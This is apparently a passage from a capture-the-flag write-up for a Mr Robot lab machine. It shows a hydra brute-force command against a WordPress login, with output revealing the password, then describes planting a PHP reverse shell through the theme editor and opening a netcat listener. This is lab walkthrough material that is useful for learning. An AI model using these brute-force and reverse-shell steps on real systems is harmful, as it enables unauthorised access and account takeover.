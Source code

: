 We have our username: `Elliot`

Now we do the same thing to find out the `password`. We have to fetch the error message for invalid password by trying to login with `Elliot`.

We receive: 

`ERROR: The password you entered for the username Elliot is incorrect`

Okay lets bake another `hydra` command:

` hydra -l Elliot -P fsocity.dic $ip http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^: The password you entered for the username" -t 30`

```bash

└─$ hydra -l Elliot -P fsocity.dic 10.10.250.121 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^: The password you entered for the username" -t 30
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-22 16:51:00
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 858235 login tries (l:1/p:858235), ~28608 tries per task
[DATA] attacking http-post-form://10.10.250.121:80/wp-login.php:log=^USER^&pwd=^PWD^: The password you entered for the username
[STATUS] 637.00 tries/min, 637 tries in 00:01h, 857598 to do in 22:27h, 30 active
[STATUS] 521.00 tries/min, 1563 tries in 00:03h, 856672 to do in 27:25h, 30 active
[STATUS] 491.29 tries/min, 3439 tries in 00:07h, 854796 to do in 28:60h, 30 active
[80][http-post-form] host: 10.10.250.121   login: Elliot   password: ER28-0652
``` 
Okay we found our password.

Password: `ER28-0652`


Lets login in `Wordpress`. We check the things we can do and we have to find a way to get into the system. Most of the time you want to have a `reverse` shell, if you have any access. So after considering some options, I decided for a `php reverse shell`.

I use the following script:

[Github Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

You have to change the `port` and enter your `ip address`. Then you listen on your entered port. I always use `4444`.

`nc -nlvp 4444 10.10.250.121`

I tried to create a new post with the `reverse shell` but after refreshing the new post, I didnt get a connection, thats why I needed something else.


Unter `Appearance` you can edit the different page themes. The tab `editor` is the solution here.
